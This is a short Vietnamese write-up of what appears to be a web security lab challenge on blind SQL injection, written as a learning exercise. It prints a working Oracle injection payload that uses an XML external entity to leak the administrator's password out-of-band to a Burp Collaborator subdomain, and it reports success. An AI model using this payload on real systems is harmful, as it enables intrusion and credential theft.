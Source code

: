 ![image](https://github.com/user-attachments/assets/f9d86f97-9b29-4652-a683-b1dbd5602417)

Thì cơ bản nó cũng giống challenge 16 thôi, nhưng khác ở chỗ là ở challenge này ta phải lấy được data.

```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

![image](https://github.com/user-attachments/assets/e99190c5-dc11-4c66-8716-2c2bf2b64aef)

![image](https://github.com/user-attachments/assets/0184eade-7bac-48a2-bb41-525836b87768)

Vì ở trên đó là nối chuỗi nên chắc chắn đây là passwd.

![image](https://github.com/user-attachments/assets/61ca76cc-7959-4c3b-87e9-d826a3d78bfe)

Vậy là thành công, idea thì cũng giống challenge 16 thôi.
